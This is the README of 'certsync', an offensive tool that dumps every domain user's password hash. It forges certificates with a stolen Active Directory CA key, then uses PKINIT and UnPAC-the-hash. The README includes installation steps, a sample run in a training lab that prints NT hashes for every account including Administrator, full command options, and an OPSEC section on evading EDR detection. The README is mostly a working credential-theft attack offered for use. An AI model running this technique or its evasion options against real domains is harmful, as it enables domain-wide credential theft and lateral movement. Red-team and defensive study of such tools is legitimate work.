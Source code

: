 # certsync

`certsync` is a new technique in order to dump NTDS remotely, but this time **without DSRUAPI**: it uses [golden certificate](https://cyberstoph.org/posts/2019/12/an-introduction-to-golden-certificates/) and [UnPAC the hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash).
It works in several steps:

1. Dump user list, CA informations and CRL from LDAP
2. Dump CA certificate and private key
3. Forge offline a certificate for every user
4. UnPAC the hash for every user in order to get nt and lm hashes

```text
$ certsync -u khal.drogo -p 'horse' -d essos.local -dc-ip 192.168.56.12 -ns 192.168.56.12
[*] Collecting userlist, CA info and CRL on LDAP
[*] Found 13 users in LDAP
[*] Found CA ESSOS-CA on braavos.essos.local(192.168.56.23)
[*] Dumping CA certificate and private key
[*] Forging certificates for every users. This can take some time...
[*] PKINIT + UnPAC the hashes
ESSOS.LOCAL/BRAAVOS$:1104:aad3b435b51404eeaad3b435b51404ee:08083254c2fd4079e273c6c783abfbb7:::
ESSOS.LOCAL/MEEREEN$:1001:aad3b435b51404eeaad3b435b51404ee:b79758e15b7870d28ad0769dfc784ca4:::
ESSOS.LOCAL/sql_svc:1114:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
ESSOS.LOCAL/jorah.mormont:1113:aad3b435b51404eeaad3b435b51404ee:4d737ec9ecf0b9955a161773cfed9611:::
ESSOS.LOCAL/khal.drogo:1112:aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021:::
ESSOS.LOCAL/viserys.targaryen:1111:aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097:::
ESSOS.LOCAL/daenerys.targaryen:1110:aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a:::
ESSOS.LOCAL/SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:b63b6ef2caab52ffcb26b3870dc0c4db:::
ESSOS.LOCAL/vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
ESSOS.LOCAL/Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
```

Contrary to what we may think, the attack is not at all slower.

## Table of Contents

- [certsync](#certsync)
  - [Table of Contents](#table-of-contents)
  - [Installation](#installation)
  - [Usage](#usage)
  - [Why](#why)
  - [Requirements](#requirements)
  - [Limitations](#limitation)
  - [OPSEC](#opsec)
  - [Credits](#credits)

## Installation

```text
git clone https://github.com/zblurx/certsync
cd certsync
pip install .
```

or 

```text
pip install certsync
```

## Usage

```text
$ certsync -h
usage: certsync [-h] [-debug] [-outputfile OUTPUTFILE] [-ca-pfx pfx/p12 file name] [-ca-ip ip address] [-d domain.local] [-u username] [-p password] [-hashes LMHASH:NTHASH]
                [-no-pass] [-k] [-aesKey hex key] [-use-kcache] [-kdcHost KDCHOST] [-scheme ldap scheme] [-ns nameserver] [-dns-tcp] [-dc-ip ip address]
                [-ldap-filter LDAP_FILTER] [-template cert.pfx] [-timeout timeout] [-jitter jitter] [-randomize]

Dump NTDS with golden certificates and PKINIT

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -outputfile OUTPUTFILE
                        base output filename

CA options:
  -ca-pfx pfx/p12 file name
                        Path to CA certificate
  -ca-ip ip address     IP Address of the certificate authority. If omitted it will use the domainpart (FQDN) specified in LDAP

authentication options:
  -d domain.local, -domain domain.local
                        Domain name
  -u username, -username username
                        Username
  -p password, -password password
                        Password
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it
                        will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -use-kcache           Use Kerberos authentication from ccache file (KRB5CCNAME)
  -kdcHost KDCHOST      FQDN of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter

connection options:
  -scheme ldap scheme
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter

OPSEC options:
  -ldap-filter LDAP_FILTER
                        ldap filter to dump users. Default is (&(|(objectCategory=person)(objectClass=computer))(objectClass=user))
  -template cert.pfx    base template to use in order to forge certificates
  -timeout timeout      Timeout between PKINIT connection
  -jitter jitter        Jitter between PKINIT connection
  -randomize            Randomize certificate generation. Takes longer to generate all the certificates
```

## Why

DSRUAPI is more and more monitored and sometimes retricted by EDR solutions. Moreover, `certsync` does not require to use a Domain Administrator, it only require a CA Administrator.

## Requirements

This attack needs:
- A configured Entreprise CA on an ADCS server in the domain,
- PKINIT working,
- An domain account which is local administrator on the ADCS server, or an export of the CA certificate and private key.

## Limitations

Since we cannot PKINIT for users that are revoked, we cannot dump thier hashes.

## OPSEC

Some options were added to customize the behaviour of the tool:
- `-ldap-filter`: change the LDAP filter used to select usernames to certsync.
- `-template`: use an already delivered certificate to mimic it when forging users certificates.
- `-timeout` and `-jitter`: change timeout between PKINIT authentication requests.
- `-randomize`: By default, every forged user certificates will have the same private key, serial number and validity dates. This parameter will randomize them, but the forging will take longer. 

## Credits

- [Olivier Lyak](https://twitter.com/ly4k_) for all his work on ADCS and [certipy](https://github.com/ly4k/Certipy).
- [Benjamin Delpy](https://twitter.com/gentilkiwi) for the unPAC the hash technique.
- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) and [Certify](https://github.com/GhostPack/Certify).
- [Mayfly](https://twitter.com/M4yFly) for his great lab: [GOAD](https://github.com/Orange-Cyberdefense/GOAD).